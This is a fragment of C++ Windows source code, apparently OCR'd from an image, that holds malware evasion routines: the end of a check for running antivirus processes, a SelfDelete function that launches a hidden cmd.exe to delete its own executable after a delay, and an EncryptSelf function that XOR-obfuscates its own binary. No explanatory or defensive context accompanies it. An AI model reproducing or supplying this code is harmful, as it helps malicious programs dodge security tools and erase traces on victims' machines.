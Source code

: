     do {
        for (const auto& av : avList) {
            if (_wcsicmp(pe32.szExeFile, av) == 0) {
                CloseHandle(snapshot);
                return true;
            }
        }
    } while (Process32NextW(snapshot, &pe32));
    
    CloseHandle(snapshot);
    return false;
}

void SelfDelete() {
    wchar_t szModule[MAX_PATH];
    GetModuleFileNameW(NULL, szModule, MAX_PATH);
    
    wchar_t szCmd[MAX_PATH + 50];
    swprintf_s(szCmd, L"cmd.exe /C ping 1.1.1.1 -n 1 -w 3000 > Nul & del \"%s\"", szModule);
    
    STARTUPINFO si = {sizeof(STARTUPINFO)};
    PROCESS_INFORMATION pi;
    CreateProcessW(NULL, szCmd, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
    
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
}

void EncryptSelf() {
    wchar_t szPath[MAX_PATH];
    GetModuleFileNameW(NULL, szPath, MAX_PATH);
    
    HANDLE hFile = CreateFileW(szPath, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) return;
    
    DWORD fileSize = GetFileSize(hFile, NULL);
    if (fileSize == INVALID_FILE_SIZE) {
        CloseHandle(hFile);
        return;
    }
    
    BYTE* buffer = new BYTE[fileSize];
    DWORD bytesRead;
    
    if (ReadFile(hFile, buffer, fileSize, &bytesRead, NULL)) {
        for (DWORD i = 0; i < fileSize; i++) {
            buffer[i] ^= 0x55;
        }
        
        SetFilePointer(hFile, 0, NULL, FILE_BEGIN);
        WriteFile(hFile, buffer, fileSize, &bytesRead, NULL);
    }
    
    delete[] buffer;
    CloseHandle(hFile);
}
